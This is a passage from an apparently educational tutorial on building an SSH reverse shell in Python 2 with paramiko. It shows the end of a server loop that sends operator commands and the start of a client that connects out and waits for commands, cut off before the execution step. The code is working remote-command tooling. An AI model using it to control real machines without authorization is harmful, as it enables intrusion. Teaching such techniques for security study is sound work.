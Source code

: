 ```python
        chan = Session.accept(10)
        print '[+] Authenticated!'
        chan.send("Welcome to Buffy's SSH")
        while 1:
            try:
                command = raw_input("Enter command: ").strip('\n')
                if command != 'exit':
                    chan.send(command)
                    print chan.recv(1024) + '\n'
                else:
                    chan.send('exit')
                    print '[*] Exiting ...'
                    session.close()
                    raise Exception('exit')
            except KeyboardInterrupt:
                session.close()

    except Exception, e:
        print "[-] Caught exception: " + str(e)
        try:
            session.close()
        except:
            pass
        sys.exit(1)

if __name__ == '__main__':
    main()
```



### The SSH Client

The last piece for our reversed shell is to make the SSH client to be able to receive commands from the server.

We are going to adapt the previous client script to receive these commands. All we need to do is to add a loop inside the session:

```python
import paramiko
import sys
import getopt
import subprocess

def usage():
    print "Usage: ssh_client.py  <IP> -p <PORT> -u <USER> -c <COMMAND> -a <PASSWORD>"
    print "  -a                  password authentication"
    print "  -p                  specify the port"
    print "  -u                  specify the username"
    print
    print "Examples:"
    print "ssh_client.py localhost -u buffy -p 22 -a killvampires"
    sys.exit()

def ssh_client(ip, port, user, passwd):
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    client.connect(ip, port=port, username=user, password=passwd)
    ssh_session = client.get_transport().open_session()
    if ssh_session.active:
        print ssh_session.recv(1024)
        while 1:
            command = ssh_session.recv(1024)
            try:
```